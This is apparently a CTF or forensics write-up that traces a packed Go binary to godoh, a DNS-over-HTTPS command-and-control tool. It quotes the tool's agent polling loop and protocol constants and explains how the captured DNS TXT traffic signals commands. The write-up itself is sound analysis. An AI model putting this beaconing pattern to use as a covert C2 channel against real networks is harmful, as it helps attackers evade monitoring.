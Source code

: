 looks like hex, but converts to binary.
We need to analyse the binary which is responsible for this.

### godoh analysis
The binary appears to be `golang` executable, stripped, and UPX packed.

Even after upacking, its not easy to analyse, but looking at the output of
the file we get (part of the help message):
```
A DNS (over-HTTPS) C2
    Version: a10879c
        By @leonjza from @sensepost
Usage:
  godoh [flags]
  godoh [command
```

That's how I knew its a project called `godoh`, and found [this][goDoh]
repo.

Looking in the repo, I think the part of the code responsible for this DNS is
[cmd/agent.go](https://github.com/sensepost/goDoH/blob/master/cmd/agent.go)

```go
// trunked...
for {
    // trunked...
    response := dnsclient.Lookup(dnsProvider,
                    fmt.Sprintf("%x.%s", agentCmdAgentName, dnsDomain), dns.TypeTXT)

    // Do nothing.
    if strings.Contains(response.Data, protocol.NoCmdTxtResponse[0]) {
        continue
    }
    // trunked...
}
// trunked...
```

from [protocol/constants.go](https://github.com/sensepost/goDoH/blob/master/protocol/constants.go):
```go
var (
	NoCmdTxtResponse = []string{
		"v=B2B3FE1C",
	}
	ErrorTxtResponse = []string{
		"v=D31CFAA4",
	}
	CmdTxtResponse = []string{
		"v=A9F466E8",
	}
)
```

when looking at the `PCAP`, we actually see `6739746e73.dooh.aymjnd.com` get sent
multiple times, and in all of the times, except for the last one we get
`v=B2B3FE1C` as a response, and then we get `v=A9F466E8` which means that
there is a command, which is held in `p=` argument in the response.


[goDoH]: https://github.com/sensepost/goDoH